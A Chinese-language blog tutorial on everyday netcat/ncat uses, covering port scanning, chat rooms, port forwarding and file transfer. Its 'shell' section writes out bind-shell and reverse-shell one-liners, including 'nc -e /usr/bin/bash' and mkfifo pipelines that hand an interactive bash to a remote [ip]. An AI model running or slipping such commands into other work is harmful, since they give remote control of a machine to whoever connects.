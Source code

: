 ```yaml
---
layout: post
title: NC 的简单应用
description: 瑞士军刀 nc, 你的想象力是局限 nc 的瓶颈
category: opinion
---
```


NC ，不仅代表是 netcat ，还有其加强版 ncat 。

NetCat 是 GNU 开源的网络请求工具， Ncat 是面向21世纪的 netcat，是 Nmap 工具集的一部分，nc 可以用来 读/写 TCP/UDP 网络连接。

nc 不仅可以请求，还能监听 (-l) 网络连接, 不仅支持 TCP 协议，还支持 UDP 协议(-u)，不仅可以在 ipv4 (-4) 网络下进行，还支持 ipv6 (-6)。

```
brew install nmap
```

或者

```
yum install nc
```

即可安装 ncat

## 端口扫描

nc 一开始也最基础的功能，端口连接扫描。

TCP `nc -zv addr port`

UDP `nc -zvu addr port`

> 连接 udp 端口有些不准

## 网络聊天室

nc 主要用来请求并保持一个网络连接，也可以用来监听一个端口。

比如打开一个 TCP 连接，发送 HTTP 协议请求。 `nc IP_address port_numbe` 连接模式。

```
> nc 127.0.0.1 5002
HEAD / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:21 GMT
Connection: Keep-Alive

GET / HTTP/1.1

HTTP/1.1 200 OK
Etag: 17f803-3de2-5a560fb2
Content-Type: text/html; charset=utf-8
Content-Length: 15842
Last-Modified: Wed, 10 Jan 2018 13:05:54 GMT
Cache-Control: private, max-age=0, proxy-revalidate, no-store, no-cache, must-revalidate
Server: WEBrick/1.3.1 (Ruby/2.4.1/2017-03-22)
Date: Wed, 10 Jan 2018 13:07:30 GMT
Connection: Keep-Alive

<!DOCTYPE html>
<html>
<head>
...
```

使用 `nc -l IP_address port_numbe` 监听模式。

一个终端使用 `nc -l 127.0.0.1 8090` 开启监听，一个终端使用 `nc 127.0.0.1 8090` 保持连接，即可进行聊天室功能。

但是这样只能点对点双方交流，不能进行多方交流，且建立连接之后任意一方断开连接，则双方都会终止。在 ncat 中新增了订阅者模式，可以由一个 server 提供服务，多个 client 之间相互交流，这样就够搭建一个完整的即时通讯聊天室。

启动 server

```
ncat -l 8888 --broker
```

然后使用多个 client 连接即可。

![ncat_chatroom.png](/images/ncat_chatroom.png)

## UDP 协议支持

开启 UDP 端口监听 `ncat -l -u 8999`

可以使用 `netstat` 查看端口是否开放

```
netstat -tunlp|grep 8999
```

或者使用 netstat 进行通信，建立 UDP 的聊天室。

```
nc -u 127.0.0.1 8999
```

## 反向代理

除了 nginx 可以做反向代理，nginx 也可以实现一个简单的反向代理服务。

> 其实就是端口转发

```
ncat -l 8089| ncat 127.0.0.1 5002
```

这样只能单向代理，即发往 8089 的流量会被代理至 5002 端口上，但是 5002 端口返回的数据，不能通过 8089 再继续返回给我们。

```
mkfifo /tmp/fifo
cat /tmp/fifo | nc 127.0.0.1 5002 | nc -l 9000 > /tmp/fifo
```

双向代理，亲测 HTTP, MySQL 转发可用。

或者这样

```
ncat -l 8068 -c 'ncat 127.0.0.1 5002
```

## shell

nc 的一个经典应用，分为正向 shell 和反向 shell，分别表示客户端控制服务器，和服务器控制客户端。

### 正向 shell

服务器上 (需要有公网地址)

```
nc -l -p 5555 -t -e /usr/bin/bash
```

客户端

```
nc [host] 5555
```

即可在客户端操纵服务器。

也可以操作 Windows `nc -l -p 5555 -t -e cmd.exe`

正向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc -l 8000 > /tmp/fifo
```

### 反向 shell

在客户端机器上 (需要有公网地址)

```
nc -lp 5555
```

服务器上

```
nc -t -e /usr/bin/bash [ip] 5555
```

即可在客户端操纵服务器。

反向 shell 也可以这样

```
mkfifo /tmp/fifo
cat /tmp/fifo | /bin/bash -i 2>&1 | nc [ip] 8001 > /tmp/fifo
```

正向 shell 与反向 shell 的区别就在与被操纵者有没有公网地址。

## 传输文件

接收端

```
ncat -lp 3333 > 1.mp4
```

发送端

```
ncat -nv  --send-only [ip] 3333 < 1.mp4
```

或者先起发送端

```
ncat --send-only -lp 3333 <a.mp4
```

再起接收端

```
nc -nv [ip] 3333 >a.mp4
```

## 保持连接

在 nc shell 中，当客户端连接断掉之后就会自动终止，可以通过加参数 `-k` 来保持连接。

正向 shell

```
nc -l -p 5555 -t -e /usr/bin/bash -k
```
